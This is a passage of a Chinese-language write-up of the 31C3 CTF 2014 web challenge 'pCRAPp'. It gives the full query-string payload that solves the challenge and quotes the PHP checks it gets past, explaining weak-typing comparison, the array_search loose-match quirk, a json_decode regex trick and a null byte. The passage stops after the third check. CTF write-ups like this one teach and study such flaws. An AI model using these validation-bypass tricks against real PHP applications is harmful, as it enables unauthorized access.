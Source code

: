 # 31C3 CTF web关writeup

0x00 背景
=====

31c3 CTF 还是很人性化的，比赛结束了之后还可以玩。看题解做出了当时不会做的题目，写了一个writeup。

英文的题解可以看这里https://github.com/ctfs/write-ups/tree/master/31c3-ctf-2014/web

0x01 pCRAPp
=====

> PHP is nasty crappy sometimes, just pwn it http://188.40.18.69/

这题需要好多php技巧组合起来。过关需要这样提交。

```
http://188.40.18.69/pCRAPp.php?a={%22a1%22:%221337a%22,%22a2%22:[[1],1,2,3,0]}&b=0001&c[0]=0031c3&c[1][]=1111&d=%00 

```

![enter image description here](http://drops.javaweb.org/uploads/images/1552d63ffb5bab6584f296f3ab3a7c28b788abd5.jpg)

逐步分析一下每个知识点，其实很多技巧在http://drops.wooyun.org/tips/4483这篇文章有讲到。

这里用到了PHP弱类型的一个特性，当一个整形和一个其他类型行比较的时候，会先把其他类型intval再比。

```
is_numeric(@$a["a1"])?die("nope"):NULL;    
if(@$a["a1"]){
        ($a["a1"]>1336)?$v1=1:NULL;    
}

```

这里也利用了相同的原理，array_search 会使用'ctf'和array中的每个值作比较，而且intval('ctf')==0.

```
if(is_array(@$a["a2"])){
        if(count($a["a2"])!==5 OR !is_array($a["a2"][0])) die("nope");
        $pos = array_search("ctf", $a["a2"]);
        $pos===false?die("nope"):NULL;
        foreach($a["a2"] as $key=>$val){
            $val==="ctf"?die("nope"):NULL;
        }
        $v2=1;
    }

```

这里用到了一个BUG，http://blog.51yip.com/php/934.html。 在windows下 1.1.1 这种构造也会报错。

```
if(preg_match("/^([0-9]+\.?[0-9]+)+$/",@$_GET['b'])){
    $b=json_decode(@$_GET['b']);
    if($var = $b === NULL){
        ($var===true)?$v3=1:NULL;
    }
} 

```
